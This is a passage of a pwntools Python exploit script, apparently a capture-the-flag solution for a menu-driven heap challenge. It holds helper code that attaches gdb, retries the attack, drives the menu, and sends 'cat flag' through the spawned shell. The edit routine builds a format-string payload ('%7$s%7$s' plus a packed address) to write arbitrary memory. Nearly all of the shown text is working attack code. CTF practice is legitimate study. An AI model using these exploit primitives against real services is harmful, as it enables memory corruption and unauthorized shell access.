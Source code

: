 ```python
    sh.recvrepeat(0.1)
    sh.sendline('cat flag')
    return sh.recvrepeat(0.3)

def get_gdb(sh, gdbscript=None, addr=0, stop=False):
    if args['REMOTE']:
        return
    if gdbscript is not None:
        gdb.attach(sh, gdbscript=gdbscript)
    elif addr is not None:
        text_base = int(os.popen("pmap {}| awk '{{print $1}}'".format(sh.pid)).readlines()[1], 16)
        log.success("breakpoint_addr --> " + hex(text_base + addr))
        gdb.attach(sh, 'b *{}'.format(hex(text_base + addr)))
    else:
        gdb.attach(sh)
    if stop:
        raw_input()

def Attack(target=None, sh=None, elf=None, libc=None):
    if sh is None:
        from Class.Target import Target
        assert target is not None
        assert isinstance(target, Target)
        sh = target.sh
        elf = target.elf
        libc = target.libc
    assert isinstance(elf, ELF)
    assert isinstance(libc, ELF)
    try_count = 0
    while try_count < 3:
        try_count += 1
        try:
            pwn(sh, elf, libc)
            break
        except KeyboardInterrupt:
            break
        except EOFError:
            if target is not None:
                sh = target.get_sh()
                target.sh = sh
                if target.connect_fail:
                    return 'ERROR : Can not connect to target server!'
            else:
                sh = get_sh()
    flag = get_flag(sh)
    return flag

def choice(idx):
    sh.sendlineafter("choice: ", str(idx))

def add(size, content):
    choice(1)
    sh.sendlineafter("size: ", str(size))
    sh.sendafter("content: ", content)
    sh.recvuntil('addr: ')
    return int(sh.recvuntil('\n', drop=True), 16)

def say(say):
    choice(2)
    sh.sendafter("say ? ", str(say).ljust(0x64, '\x00'))

def edit(addr, content):
    say('%7$s%7$s' + p64(addr))  # scanf('%7$s%7$s',addr)  %7$s Alignment offset
```